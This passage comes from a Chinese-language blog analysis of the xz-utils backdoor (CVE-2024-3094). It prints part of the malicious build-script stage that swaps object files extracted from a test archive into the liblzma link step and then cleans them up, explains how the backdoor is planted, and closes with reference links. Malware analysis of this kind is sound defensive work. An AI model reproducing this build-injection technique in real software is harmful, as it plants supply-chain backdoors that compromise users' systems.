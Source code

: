 ```bash
eval $RgYB
if $AM_V_CCLD$liblzma_la_LINK -rpath $libdir $liblzma_la_OBJECTS $liblzma_la_LIBADD; then
if test ! -f .libs/liblzma.so; then
mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
fi
rm -fr .libs/liblzma.a .libs/liblzma.la .libs/liblzma.lai .libs/liblzma.so* || true
else
mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
fi
rm -f .libs/liblzma_la-crc32-fast.o || true
rm -f .libs/liblzma_la-crc64-fast.o || true
else
mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
fi
else
mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
fi
rm -f liblzma_la-crc64-fast.o || true
fi
eval $DHLd
```

> [ ! $(uname)="Linux" ] && exit 0 其實沒有空格會導致這行無作用

{% endfold %}

phase2 payload 將會檢查許多條件，如果符合，就會開始後門的植入

這會繼續從`tests/files/good-large_compressed.lzma`中解壓縮出`liblzma_la-crc64-fast.o`和`liblzma_la-crc32-fast.o`，這是個惡意的連接檔

並將原本的檔案做備份到名稱接近的檔案

```
cp .libs/liblzma_la-crc32_fast.o .libs/liblzma_la-crc32-fast.o
```

接著就是修改編譯的檔案，植入後門

最後根據成功或失敗，把解壓縮的檔案清除，或將備份的檔案復原

如果想瞭解更詳細的植入過程，可以參考此網站 [research!rsc: The xz attack shell script](https://research.swtch.com/xz-script)[^6]

或是參考這張圖理解，此圖來自 [Thomas Roccia](https://twitter.com/fr0gger_/status/1774342248437813525)

![](xz-infographic.jpeg)

有關對 liblzma_la-crc32-fast.o、liblzma_la-crc64-fast.o 的逆向分析，可以參考以下連結

[[WIP] XZ Backdoor Analysis and symbol mapping](https://gist.github.com/smx-smx/a6112d54777845d389bd7126d6e9f504)

[smx-smx/xzre: XZ backdoor reverse engineering](https://github.com/smx-smx/xzre)


[^1]: [oss-security - backdoor in upstream xz/liblzma leading to ssh server compromise](https://www.openwall.com/lists/oss-security/2024/03/29/4)
[^2]: [FAQ on the xz-utils backdoor (CVE-2024-3094)](https://gist.github.com/thesamesam/223949d5a074ebc3dce9ee78baad9e27#design)
[^3]: [landlock(7) - Linux manual page](https://man7.org/linux/man-pages/man7/landlock.7.html)
[^4]: [CheckCSourceCompiles — CMake 3.29.2 Documentation](https://cmake.org/cmake/help/latest/module/CheckCSourceCompiles.html)
[^5]: [CheckIncludeFile — CMake 3.29.2 Documentation](https://cmake.org/cmake/help/latest/module/CheckIncludeFile.html)
[^6]: [research!rsc: The xz attack shell script](https://research.swtch.com/xz-script)
[^7]: [amlweems/xzbot](https://github.com/amlweems/xzbot)
[^8]: [XZ Utils backdoor](https://tukaani.org/xz-backdoor/)
[^9]: [xz-utils backdoor situation](https://gist.github.com/martenson/398bdb7a928069cf67606c9ba919a7ce)
[^10]: [xz-utils backdoor situation (CVE-2024-3094)](https://gist.github.com/thesamesam/223949d5a074ebc3dce9ee78baad9e27)